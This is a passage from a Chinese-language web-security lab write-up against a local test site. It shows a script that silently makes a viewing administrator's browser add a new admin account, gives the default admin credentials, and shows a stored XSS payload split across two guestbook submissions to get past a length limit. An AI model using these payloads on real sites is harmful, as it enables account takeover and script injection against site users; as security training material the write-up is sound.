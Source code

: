 >  }
>xmlhttp.onreadystatechange=function()
>  {
>  if (xmlhttp.readyState==4 && xmlhttp.status==200)
>    {
>    document.getElementById("myDiv").innerHTML=xmlhttp.responseText;
>    }
>  }
>xmlhttp.open("POST"," http://192.168.1.3:8007/admin/admin_usersetting.asp",true);
>xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
>xmlhttp.send("action=add&UserName=zhangsan&PassWord=123456&isActive=1&isAdmin=1&pubSubCateID=91&Submit=+%C8%B7+%B6%A8+");
>}
>loadXMLDoc()
></script>
>```
>
>6.点击“首页”，回到首页，退出zhangsan用户。
>
>7.输入后台路径`【http://192.168.1.3:8007/admin/user.asp】`使用【admin/admin888】，登录后台。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706215647.png)
>
>8.此时回到首页，浏览器输入：`http://192.168.1.3:8007`，查看帖子rty，点击了此条物品消息，没有什么异常现象。
>
>9.此时管理员再次进入自己的后台：`【http://192.168.1.3:8007/admin/user.asp】`在“系统用户管理”中，发现多了一个账户zhangsan。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706215648.png)



## 跨站脚本攻击之存储型XSS

**实验步骤：**

>1.由于对用户的输入过滤不严导致XSS，所以一般XSS会存在在交互页面,比如留言板、登录框等。点击【在线留言】，进入在线留言页面。
>
>2.在交互页面提交请求，进行尝试输入不同的内容，寻找XSS漏洞存在的点。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706214912.png)
>
>3.交互界面返回信息。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706214910.png)
>
>4.经过页面提交留言测试，发现留言标题文本框对输入的文字长度进行了限制,所以,我们的这一次尝试是失败的，我们需要调整XSS代码以绕过防护。
>
>5.这里使用注释的方式绕过代码对长度的限制。对交互页面进行输入恶意代码。我们先尝试提交`*/</script>`点击提交。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706215650.png)
>
>6.显示提交成功，我们继续提交下一段代码`<script>alert(/xss/)/*`来配合上一段代码执行。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706214900.png)
>
>7.当管理员进入管理后台，进入留言管理，会触发用户输入的恶意代码，成功弹窗。
>
>![](https://npm.elemecdn.com/nan-picture@1.0.0/blog/20220706214859.png)
>
>8.后台页面源代码里显示`<script>alert(/xss/)/*其他标签和内容``*/</script>`
